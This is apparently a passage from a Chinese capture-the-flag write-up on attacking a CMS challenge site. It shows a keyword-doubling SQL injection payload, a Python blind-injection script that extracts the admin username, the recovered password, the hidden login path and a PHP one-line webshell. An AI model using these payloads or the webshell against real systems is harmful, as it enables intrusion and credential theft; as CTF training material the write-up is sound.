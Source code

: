 2. 注入

id搜索后出现so.php，存在注入点soid。数据表名为admin 字段名username userpass
开始注入，利用burpsuit先报username的内容

```php
file=1/*/aandnd/*/exists(selselectect/*/usernamnamee/*/frfromom/*/admadminin/*/limit 1,1)
```

判断出username字段长度为5，userpass字段长度为6
利用脚本爆内容

```python
import requests
url=r'http://cms.nuptzj.cn/so.php'
header={
    'User-Agent': 'Xlcteam Browser',
}
dic='0123456789abcdefghijklmnopqrstuvwxyz'
string=''
for i in range(1,6):
    for j in dic:
        id='1/**/anandd/**/exists(selselectect/**/*/**/frfromom/**/admadminin/**/where/**/oorrd(substr(usernamnamee,{0},1))>{1})'.format(str(i),str(ord(j)))#只需将username更改为uerpass
        data={
            'soid':id
        }
        s=requests.post(url=url,headers=header,data=data)
        content=s.text
        print 1
        if(len(content)<430):
            string+=j
            break
    print string
```

结果为admin 1020117099010701140117011001160117
后面的加密算法在passencode.php里面解密为fuckruntu
有了账号密码就可以登后台了在about.php里有loginxlcteam

```html
http://cms.nuptzj.cn/loginxlcteam/
```

登录

1.  一句话木马

```php
xlcteam.php
<?php
$e = $_REQUEST['www'];
$arr = array($_POST['wtf'] => '|.*|e',);
array_walk($arr, $e, '');
?>
```
